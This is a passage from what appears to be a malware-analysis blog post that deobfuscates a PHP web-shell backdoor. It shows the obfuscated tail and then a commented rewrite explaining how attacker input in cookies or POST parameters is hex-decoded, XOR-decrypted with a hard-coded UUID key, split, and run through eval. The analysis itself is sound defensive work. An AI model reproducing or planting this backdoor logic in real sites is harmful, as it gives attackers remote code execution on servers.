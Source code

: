   return \@pack(\"H\*\", \$func2\_p2);\
  }\
  \
  function func3(\$mainArray, \$func3\_p2){\
  \
  \$flag = count(\$func3\_p2) % 3;\
  \
  if (!\$flag) {\
  eval(\$func3\_p2\[1\](\$func3\_p2\[2\]));\
  exit();\
  }\
  }\
  \
  \$value = func2(\$mainArray, \$value);\
  \
  func3(\$mainArray, explode(\"\#\", \$value \^ func1(\$mainArray, \$key, strlen(\$value))));\
  }

  -----------------------------------------------------------------------------------------------------------------------------------

It now possible to see what is going on, but to fully understand the
functionality, I decided to take a deeper look by going through each
section, and doing some rewriting where's needed, as well as adding some
comments.

  ----------------------------------------------------------------------------------------------------------------------------------------------------------------------
   // mainArray is no longer needed\
  \
  // Iterate all cookie and post parameters\
  foreach (array\_merge(\$\_COOKIE, \$\_POST) as \$key =\> \$value){\
  \
   // create repeating XOR cipher key to decipher \$value\
   function xorKey(\$key, \$valueLen){\
   // string substr ( string \$string , int \$start \[, int \$length \] )\
   return substr(\
   // string str\_repeat ( string \$input , int \$multiplier )\
   // Name of key used to deliver the payload, concatenated with some id eg. payloads are designed for specific targets, or atleast only accessible with id knowledge\
   // Repeat xorKey to atleast length of \$value\
   str\_repeat(\$key . \"e91bf67d-7f2b-42ff-86d5-3aa51a75f2e9\", (\$valueLen / strlen(\$key)) + 1),\
   0,\
   \$valueLen\
   );\
   }\
  \
   // Get length of \$value before conversion to bin\
   \$valueLen = strlen(\$value);\
  \
   // Convert a binary expression (e.g., \"01000001 01000010 01000011\") into a binary-string\
   // Note : The @ is the error suppression operator in PHP! (Meaning any error in pack, will be ignored)\
   \$value = \@pack(\"H\*\", \$value);\
  \
   // XOR\
   /\*\
   \$value : supplied XOR cipher payload from entry arrays\
   \$xorKey : XOR cipher key fitted to length of \$value (\$key.\"e91bf67d-7f2b-42ff-86d5-3aa51a75f2e9\") \* times to be larger than length of \$value\
   \*/\
   \$payload = \$value \^ xorKey(\$key, \$valueLen); \
   \
   // Create array for each element separated by \"\#\"\
   \$payloadArr = explode(\"\#\", \$payload);\
   \